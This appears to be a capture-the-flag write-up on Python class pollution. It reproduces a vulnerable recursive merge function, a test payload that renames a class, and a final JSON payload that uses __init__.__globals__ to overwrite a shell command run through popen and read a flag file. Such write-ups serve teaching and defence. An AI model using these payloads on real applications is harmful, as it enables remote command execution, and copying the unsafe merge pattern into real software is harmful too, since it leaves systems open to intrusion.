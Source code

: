 <h1> Class Injection Python </h1>
<h2> Description : </h2>

<p> The <b>class injection vulnerability</b> in <i>Python</i> is a new vulnerability (2023) inspired by prototype pollution in Javascript. This injection allows an attackers to <b>rewrite the attributs of a vulnerable class</b> and use special attributes such as (<i>__init__,__base__,__class__,__globals__,etc...</i>) to be used to modify the operation of the object and in some case <b>overwrite variables outside</b> the polluted class. The impact of such an injection depends on the application, but can lead to causing a <b>DoS, rewriting important attributes (eg: isAdmin), or as in our case modify command executed by the server. </b>
</p>

<h2> Exploitation : </h2>

<h3> Source code review : </h3>

<p>The source code is an administration panel that updates the server's security parameters by loading the attributes of the <i>SecurityConfig</i> class into the config.json file, which is used in the <i><b>./security_config.sh config.json</b></i> command.</p>

<img src=img/class.png></img>

<ul>
  <li>We can see that our input must be in JSON format : </br>
  <img src=img/code_source1.png></img></li></br>
  <li>Our input is put to the SecurityConfig class using the recursive merge function (who can reminds us the prototype pollution in JS) : </br>
  <img src=img/merge_fonction.png></img></li>
</ul>


<h3> Injection test :  </h3>
<p>
In the source code, we can see that the conditions for a class injection are verified:
<ul>
  <li> The server uses the user input for the key and the value of an attribute without any filtering/sanitisation.</li></br>

  <li> The application uses a vulnerable recursive function which increases the criticality of the injection.</li>
</ul>

To check the presence of injection we can test locally to rewrite the name of the class using the <i>__class__.__qualname__</i> attribute.


```python3

import os, sys, json
from urllib.parse import unquote

# security config class
class SecurityConfig:
    def __init__(self, default_config=None):
        if default_config is None:
            default_config = {}
        for key, value in default_config.items():
            setattr(self, key, value)

# merge two configuration files
def merge_config(src, dst):
    for key, value in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(key) and isinstance(value, dict):
                merge_config(value, dst.get(key))
            else:
                dst[key] = value
        elif hasattr(dst, key) and isinstance(value, dict):
            merge_config(value, getattr(dst, key))
        else:
            setattr(dst, key, value)

# the default security config
default_security_config = {
    "firewall_enabled": True,
    "encryption_level": "high",
    "audit_logging": False
}

security_config = SecurityConfig(default_security_config)


user_config = json.loads(unquote('{"__class__" : {"__qualname__" : "polluted"}}'))

merge_config(user_config, security_config)
print(security_config)
```

```bash
$ python3 aide.py
<__main__.polluted object at 0x7f6adbab5950>
```

And we can see that the name of the class has been overwrite. ! </p>

<h3> Search for RCE : </h3>

<p>
Now that we have an injection class, we want to find a way of executing commands to read the flag in /tmp/flag.txt. As we know, for the application to update its security parameters, the server executes a command using the popen function in the os module. So we need to find a way of rewriting the COMMAND variable so that we can inject arbitrary commands. In the <a href=https://docs.python.org/3/reference/datamodel.html>python documentation</a> on attribute we can find an interesting attribute: <i>__globals__</i></p>

<p> Input : <i>{"__init__" : {"__globals__" : {"COMMAND" : "cat flag.txt"}}}</i>

<img src=img/poc.png></img>
